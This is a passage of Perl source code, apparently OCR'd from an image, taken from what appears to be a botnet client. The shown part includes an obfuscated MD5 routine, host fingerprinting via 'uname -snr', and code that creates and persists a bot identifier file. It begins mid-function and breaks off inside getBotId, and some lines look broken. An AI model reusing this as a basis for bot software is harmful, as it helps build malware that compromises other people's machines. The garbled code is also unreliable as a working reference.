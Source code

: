 		 }
		 exit;
	  }
   }
}

sub md5 {
    my $arg = $_[0];
    my $uu = "H9T4C\`>_-JXF8NMS^\$\#)4=\@<\,\$18%\"0X4!\`L0%P8*#Q4\`\`04\`\`04#!P\`\`";
    my @A=unpack (N4C24, unpack (u, $uu));
    my @K=map{int abs 2**32*sin$_}1..64;
    my $x; my $n; my $l; my $m; my $p; my $z; my $r; 

    sub L {($x=pop) <<($n=pop)|2**$n-1&$x>>32-$n}
    sub M {($x=pop)-($m=1+~0)*int$x/$m}
    my $i=0;
    do{
        my $test = substr $arg, $i, $i+64;
        my $len = length $test;
        $i+=64;
        $r = $len; $l += $len; $_ = $test;
        $r++, $test.="\x80" if ($r < 64 && !$p++);
        @W=unpack V16, $test."\0"x7;
        $W[14] = $l*8 if ($r<57);
        ($a,$b,$c,$d) = @A;
        for (0..63){
            $c = $c & 0xffffffff; $b = $b & 0xffffffff; $d = $d & 0xffffffff;
$a = M$b + L$A[4+4*($_>>4)+$_%4], M&{(sub{($b&$c |$d&~$b)& 0xffffffff}, sub{($b&$d|$c&~$d)& 0xffffffff}, sub{($b^$c^$d)& 0xffffffff}, sub{($c^($b|~$d)) & 0xffffffff })[$z=$_/16]}+$W[($A[ 20+$z]+$A[24+$z]*($_%16))%16]+$K[$_]+$a;           

            ($a,$b,$c,$d)=($d,$a,$b,$c);
        }
        $v = a;
        for (@A[0..3]){$_ = M$_+${$v++}}
    }while ($r>56);
    my $result = unpack(H32,pack V4,@A);
    return $result;
}

sub getKernel {
	if ($^O eq "MSWin32"){
		$kernel = "unknown";
	}
	else {
		$kernel = `uname -snr`;
		chomp $kernel;
	}
}

sub getBotId {
	if (open(FILE, "<".$idfile)){
		$botid = <FILE>;
		close(FILE);
		print ("FROM file, botid = $botid\n");
	}
	else {
	# ">" - запись,"<"- чтение, ">>"- добавление в файл.
		if (open(FILE, ">".$idfile)){
			if ($^O eq "MSWin32"){
				print ("id = $botid\n");
				$botid = md5(int rand(65535));# "winbotid";
			} else {
				foreach $i (1..16){